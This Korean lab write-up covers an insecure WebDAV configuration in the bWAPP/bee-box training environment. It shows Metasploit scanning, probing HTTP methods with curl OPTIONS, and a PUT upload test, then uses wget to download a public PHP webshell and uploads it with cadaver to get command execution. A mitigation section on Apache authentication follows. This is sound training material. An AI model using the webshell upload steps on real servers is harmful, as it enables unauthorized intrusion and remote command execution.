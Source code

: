 ```yaml
---
title: "[bWAPP] 6. Security Misconfigurations - Insecure WebDAV Configuration"
---
```


## Definition

잘못된 보안 구성

잘못되거나 과도한 보안 설정으로 발생



## Insecure WebDAV Configuration

### Object

- bWAPP에 WebDAV 기능 활성화로 디렉토리 검색 및 악의적인 파일을 업로드하는 시나리오
- PUT Method를 이용해 WebDAV에 악의적인 파일을 업로드하는 취약점을 다뤄보자

### WebDAV

- 원격적으로 웹 서버를 제어할 수 있는 HTTP Protocol의 확장 기능
- 보안설정 미흡할 시 악성 스크립트가 포함된 파일 업로드하여 시스템에 침투 우려
- 기존 파일 수정하여 악의적인 행위 우려
- PUT Method를 허용하는 몇몇 서비스에서 악성 웹셸 업로드될 우려

| Method        | 내용                                                      |
| ------------- | --------------------------------------------------------- |
| GET           | 리소스를 취득할때 사용, URL 형식으로 웹서버로 리소스 요청 |
| HEAD          | 메세지 헤더 정보만 취득할 때 사용                         |
| POST          | 내용을 Body에 포함시켜 전송                               |
| PUT           | 헤더 이외에 메세지 전송 가능 / 웹서버에 파일 전송 가능    |
| TRACE         | 요청 리소스가 수신되는 경로 확인                          |
| OPTIONS       | 서버가 지원하는 메서드를 질의하여 응답으로 받음           |
| CONNECT       | 프락시 서버와 같은 중간 서버 경유시 사용                  |
| COPY / MOVE   | 리소스 파일 복사 / 이동                                   |
| LOCK / UNLOCK | 리소스와 파일이 overwrite되는 기능 ON / OFF               |

### 난이도 : 하

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211014014739763.png" alt="image-20211014014739763" style="zoom:67%;" />

### /webdav/

[WebDAV] 클릭 시 목록 확인 가능

![image-20211027015132130](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/C%3A/Users/wjddj/EONION-TH3DB.github.io/imgimage-20211027015132130.png)

### WebDav 사용 여부

![image-20211027015102775](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/C%3A/Users/wjddj/EONION-TH3DB.github.io/imgimage-20211027015102775.png)

- kali > msfdb start - 메타스플로잇 시작
- kali > msfconsole 
- msf6 > search webdav - 'webdav' 관련 exploit 코드
- msf6 > use auxiliary/scanner/http/webdav_scanner - 'webdav'의 사용 유무 체크
- msf6 auxiliary(scanner/http/webdav_scanner) > show options
- msf6 auxiliary(scanner/http/webdav_scanner) > set rhosts 비박스IP - 스캔할 대상
- msf6 auxiliary(scanner/http/webdav_scanner) > set path /webdav/ - 디렉토리 지정
- msf6 auxiliary(scanner/http/webdav_scanner) > exploit 

### 허용하는  HTTP Method 확인

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015011438494.png" alt="image-20211015011438494" style="zoom: 50%;" />

- kali > curl -X OPTIONS http://비박스IP/webdav/ -i
- /webdav/ 디렉토리에서 사용가능한 메소드 거의 대부분이라는 것 확인

### BurpSuite

BurpSuit를 통해 /webdav/에 임의의 파일 업로드 해보자(PUT 메서드 사용)

<img src="image-20211015012004733.png" alt="image-20211015012004733" style="zoom: 57%;" />

- /webdav/ 페이지 패킷 잡음

### BurpSuite - 1

GET -> PUT으로 변경

<img src="image-20211015012959815.png" alt="image-20211015012959815" style="zoom:58%;" />

- 내용 "<h1>Eonion</h1>"인 파일 업로드하기 위해 intecept off

### BurpSuite - 2

<img src="image-20211015013128396.png" alt="image-20211015013128396" style="zoom: 80%;" />

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015013254384.png" alt="image-20211015013254384" style="zoom:80%;" />

<img src="image-20211015013322950.png" alt="image-20211015013322950" style="zoom:104%;" />

- PUT 메서드를 통해 웹 서버에 파일 업로드 가능

### Kali

칼리를 이용해 악의적인 파일 업로드 해보자

<img src="image-20211015014551802.png" alt="image-20211015014551802" style="zoom: 65%;" />

- Kali > wget [https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP%20Shell.php](https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP Shell.php) - 코드 다운로드
- Kali >  cadaver http://비박스IP/webdav/ - 'Webdav' 클라이언트인 'cadaver' 사용
- dav:/webdav/ > put 'PHP Shell.php' 

### Kali - 1

<img src="image-20211015014839719.png" alt="image-20211015014839719" style="zoom: 80%;" />

- 웹 쉘을 통해 서버에 명령 수행 가능

### 대응방안 - BeeBox

아파치 설정 파일

<img src="image-20211015015554425.png" alt="image-20211015015554425" style="zoom: 69%;" />

- bee-box > sudo -s 
- bee-box > vi /etc/apache2/httpd.conf - 아파치 설정 파일
- 'Webdav' 활성화 되어있음

### BeeBox - 1

수정

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015023134008.png" alt="image-20211015023134008" style="zoom:69%;" />

- Options IncludeNoExec : 초기 파일(index.html)이 존재하지 않을 경우 오류 창을 띄움(403에러)
- AuthType Basic : 인증 유형(Basic : 패스워드 암호화 X / Digest : 패스워드 암호화)
- AuthName [id] : 인증 시 사용할 사용자 계정
- AuthUserFile [password file] : 'password file' 경로
- Require user [id] : 해당 계정만 접근 허용

### BeeBox - 2

패스워드 파일 생성

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015024634323.png" alt="image-20211015024634323" style="zoom:69%;" />

- bee-box > htpasswd -c [패스워드 파일] [생성 계정]
- bee-box > /etc/init.d/apache2 restart - 웹 서버 재시작

### 확인 - cadaver

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015025027061.png" alt="image-20211015025027061" style="zoom:92%;" />

- cadaver 명령어로 위와 똑같이 접속 시 계정 정보 요구

### 확인 - curl

<img src="image-20211015025611571.png" alt="image-20211015025611571" style="zoom:58%;" />

- 위에서 HTTP 메소드를 알아내기 위해 사용했던 curl을 이용시 401 오류와 인증을 요구